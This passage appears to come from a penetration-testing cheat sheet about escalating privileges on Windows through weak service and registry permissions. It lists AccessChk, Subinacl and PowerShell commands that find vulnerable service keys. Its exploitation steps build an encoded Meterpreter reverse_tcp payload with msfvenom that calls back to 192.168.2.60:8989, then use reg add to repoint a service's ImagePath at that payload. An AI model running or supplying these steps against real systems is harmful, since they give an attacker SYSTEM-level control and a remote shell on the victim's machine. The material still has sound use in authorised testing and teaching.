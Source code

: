    ```text
   msfvenom -p windows/exec CMD=<command> -f exe-service -o <service_binary>
   ```

3. Overwrite the binary file within the identified path

## Registry

Information related to services is stored in `HKLM\SYSTEM\CurrentControlSet\Services`

### Detection

**AccessChk \(Sysinternals\)**

```text
accesschk.exe -kvusw hklm\System\CurrentControlSet\services
```

**Subinacl**

```text
subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service" /display
```

[https://www.microsoft.com/en-us/download/details.aspx?id=23510](https://www.microsoft.com/en-us/download/details.aspx?id=23510)

If the service is vulnerable, the following will be shown

```text
 Key and SubKey - Type of Access:
  Full Control
```

**PowerShell**

```text
Get-Acl -Path hklm:\System\CurrentControlSet\services\* | select Path,AccessToString | Format-List
```

### Exploitation

1. Create a payload exe file with msfvenom

   ```text
   msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o Payload.exe
   ```

2. Overwrite the ImagePath subkey of the vulnerable service with the path of the custom binary/exe

   ```text
   reg.exe add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d <path_to_exe> /f
   ```

   For example,

   ```text
   reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\testuser\AppData\Local\Temp\Payload.exe" /f
   ```
